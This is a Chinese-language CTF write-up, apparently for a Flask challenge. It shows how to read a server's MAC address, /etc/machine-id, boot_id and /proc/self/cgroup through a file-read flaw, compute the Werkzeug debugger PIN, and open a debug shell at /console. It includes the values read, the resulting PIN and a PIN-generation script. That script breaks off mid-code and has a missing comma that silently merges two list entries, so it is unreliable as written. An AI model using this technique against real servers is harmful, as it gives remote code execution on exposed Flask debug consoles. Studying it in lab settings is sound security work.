 关于`uuid,machine-id`获取方式

```txt
uuid：
网卡的mac地址的十进制，可以通过代码uuid.getnode()获得，也可以通过读取/sys/class/net/eth0/address获得，一般获取的是一串十六进制数，将其中的横杠去掉然后转十进制就行。
例：00:16:3e:03:8f:39 => 95529701177
也可以直接跑print(int("00:16:3e:03:8f:39".replace(":",""),16))
machine-id：
machine-id是通过三个文件里面的内容经过处理后拼接起来

1. /etc/machine-id（一般仅非docker机有，截取全文）
2. /proc/sys/kernel/random/boot_id（一般仅非docker机有，截取全文）
3. /proc/self/cgroup（一般仅docker有，**仅截取最后一个斜杠后面的内容**）
# 例如：11:perf_event:/docker/docker-2f27f61d1db036c6ac46a9c6a8f10348ad2c43abfa97ffd979fbb1629adfa4c8.scope
# 则只截取docker-2f27f61d1db036c6ac46a9c6a8f10348ad2c43abfa97ffd979fbb1629adfa4c8.scope拼接到后面
文件12按顺序读，**12只要读到一个**就可以了，1读到了，就不用读2了。
文件3如果存在的话就截取，不存在的话就不用管
最后machine-id=（文件1或文件2）+文件3（存在的话）
```

读取`/sys/class/net/eth0/address`，查看网卡的mac地址

![20](https://the0n3.top/medias/buuflask/20.png)

把mac地址16进制数转成10进制数得到uuid`print(int("4a:72:b2:e2:e1:14".replace(":",""),16)) # 81856487940372`

尝试读取`/etc/machine-id`，`/proc/sys/kernel/random/boot_id`，`/proc/self/cgroup`

我读到的数据

- /etc/machine-id  1408f836b0ca514d796cbf8960e45fa1
- /proc/sys/kernel/random/boot_id  f933f6fe-4e47-48a0-9f0a-717fb8a31f0c # 读到文件1了，这个不用管了
- /proc/self/cgroup  0::/空，不用管了

所以我这里`uuid=81856487940372`，`machine-id=1408f836b0ca514d796cbf8960e45fa1`

把数据拿到脚本里计算pin码559-535-095，到`console`目录下认证，拿到debug shell
```python
import hashlib
from itertools import chain

probably_public_bits = [
    'flaskweb'  # /etc/passwd
    'flask.app',  # 默认
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py'  # 报错路径
]

private_bits = [
    '81856487940372',  # 网卡地址/sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'  # 机器码 /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
```